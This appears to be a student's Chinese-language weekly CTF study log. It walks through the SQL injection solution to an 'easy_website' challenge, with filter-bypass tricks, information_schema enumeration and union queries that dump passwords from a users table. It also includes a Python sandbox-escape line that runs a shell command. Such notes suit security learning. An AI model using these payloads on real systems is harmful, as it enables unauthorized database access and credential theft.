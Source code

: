 <a name="hP6d6"></a>
# 本周内容
1. sql基础学习
2. 复现ISCTF
3. 初学awd
4. pyjail
5. 开源情报
<a name="UQs5e"></a>
# 成果展示
1.easy_website<br />上次写的一知半解，把网上的语句抄过来就出了，现在正儿八经学一下sql
```sql
1'oorrder/**/by/**/1#
```
测试出只有一列,那就不用查回显了<br />然后依次用下面的指令查表查库查字段<br />最后直接查password就可以了<br />语句是union select password from users#
```sql
select schema_name from information_schema.schemata（查库）
select table_name from information_schema.tables where table_schema=库名（查表）
select column_name from information_schema.colums where table_name=表名（差列）
select 列名 from 库名.表名（查数据）
```
然后试出来在flag在第三行，在后面加上limit 2,3就可以了<br />但是这个方法仅限于行数不多的情况下，如果行数多了我们就要另找办法<br />总结：

1. #,--+可以注释
2. /**/空格绕过
```sql
order by num#
```
```sql
-1'union select 1#
```
```sql
union select from database()#
```
```sql
union select group_concat(table_name) from information_schema.tables where table_schema=database()#
```
```sql
union select group_concat(column_name) from information_schema.columns where table_schema=database()#
```
```sql
union select group_concat(0x7e,password) from users.users #
```
2.堆叠注入(暂时搁置)<br />在SQL中，分号（;）是用来表示一条sql语句的结束<br />3.pyjail<br />首先了解pyjail中eval的基础用法<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1701778549305-e5872081-e163-46ca-b842-4283c4ec91a4.png#averageHue=%23161616&clientId=u353fd0bb-2f13-4&from=paste&height=231&id=u0c394ac2&originHeight=519&originWidth=993&originalType=binary&ratio=2.25&rotation=0&showTitle=false&size=37345&status=done&style=none&taskId=u03f1543d-2559-46c8-a878-2cac690bfc2&title=&width=441.3333333333333)
```python
__import__('os').system('cat flag')
```
4.看awd的书
<a name="DQhzr"></a>
# 心得
这周事情很杂，开源情报还忙着看机顶盒的镜像，还要忙期末考试，后面就把重心放在期末考试上了
